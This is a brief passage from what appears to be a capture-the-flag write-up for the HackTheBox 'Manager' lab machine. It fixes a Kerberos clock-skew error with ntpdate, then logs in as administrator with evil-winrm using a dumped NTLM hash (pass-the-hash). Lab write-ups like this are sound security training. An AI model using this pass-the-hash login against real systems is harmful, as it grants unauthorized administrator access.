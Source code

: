 The "`KRB_AP_ERR_SKEW`" error occurs when there is a significant time difference between the client and the KDC servers, impacting the Kerberos authentication process. 

Resolving this issue involves synchronizing our machine's clock with the server's.
To do so, we need to disable the "Automatic Date & Time" setting in our machine's settings and run the following command to synchronize our clock:

```sh
sudo ntpdate -s manager.htb
```

Running the command again successfully dumps the admin hash.

```sh
evil-winrm -i manager.htb -u administrator -H ae5064c2f62317332c88629e025924ef
```


